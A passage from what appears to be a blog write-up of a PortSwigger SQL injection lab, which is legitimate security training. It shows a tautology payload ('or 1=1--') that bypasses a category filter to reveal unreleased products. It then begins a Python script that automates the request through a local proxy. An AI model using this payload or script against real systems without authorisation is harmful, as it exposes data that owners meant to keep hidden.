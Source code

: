 We can see that the request is filtering the data by category, and we are asked to show the hidden elements, so we assume that there is a parameter that hides the elements.

We try the following payload that will show the elements of all categories and we will comment out the rest of the query so that it does not filter by hidden or visible elements:

```sql
SELECT * FROM products WHERE category='Tech gifts'or 1=1--
```
This payload will comment everything else from the query, so it will show us all the elements, released or unreleased.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli5.jpg)

With this we can see the hidden data and finish the lab.

### Lab 1 Python Script

With this script the sql injection process is done automatically based on the fact that we already know the manual output, in this case we verify that the object "3D Voice Assistant" is in the web response and don´t forget to set the proxies.

```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri='/filter?category='
    r=requests.get(url+uri+payload,verify=False, proxies=proxies)
    if '3D Voice Assistants' in r.text:
        return True
    else:
        return False

```